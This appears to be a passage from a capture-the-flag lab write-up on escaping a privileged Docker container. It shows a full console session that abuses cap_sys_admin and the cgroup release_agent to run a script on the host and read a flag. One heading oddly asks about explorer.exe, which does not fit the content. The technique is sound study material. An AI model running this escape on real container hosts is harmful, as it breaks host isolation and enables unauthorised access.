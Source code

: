 No Answer.

## TASK 11 : Vulnerability #7: Misconfigured Privileges (Deploy #2)

### What is the non-existent process for explorer.exe? 

```console
root@ip-10-10-127-124:~/docdoc# ssh root@10.10.249.18 -p 2244
The authenticity of host '[10.10.249.18]:2244 ([10.10.249.18]:2244)' can't be established.
ECDSA key fingerprint is SHA256:g1op35eDDRf7ot7HFCNMORhlBt45tUzDKHrr7VqZAws.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '[10.10.249.18]:2244' (ECDSA) to the list of known hosts.
root@10.10.249.18's password: 
root@8a9427527c82:~# capsh --print | grep sys_admin
Current: = cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,cap_audit_read+eip
Bounding set =cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,cap_audit_read
root@8a9427527c82:~# mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
root@8a9427527c82:~# echo 1 > /tmp/cgrp/x/notify_on_release
root@8a9427527c82:~# host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
root@8a9427527c82:~# echo "$host_path/exploit" > /tmp/cgrp/release_agent
root@8a9427527c82:~# echo '#!/bin/sh' > /exploit
root@8a9427527c82:~# echo "cat /home/cmnatic/flag.txt > $host_path/flag.txt" >> /exploit
root@8a9427527c82:~# chmod a+x /exploit
root@8a9427527c82:~# ls
root@8a9427527c82:~#  sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
root@8a9427527c82:~# sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
root@8a9427527c82:~# cd /
root@8a9427527c82:/# ls
bin  boot  dev  etc  exploit  flag.txt  home  lib  lib64  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
root@8a9427527c82:/# cat flag.txt 
thm{you_escaped_the_chains}
root@8a9427527c82:/# cat exploit 
#!/bin/sh
cat /home/cmnatic/flag.txt > /var/lib/docker/overlay2/9b9172eea0e59d69f685b59ca0ef99c450876d5fe637b989c4c2d3502a49c769/diff/flag.txt
root@8a9427527c82:/#
```
{: .nolineno }
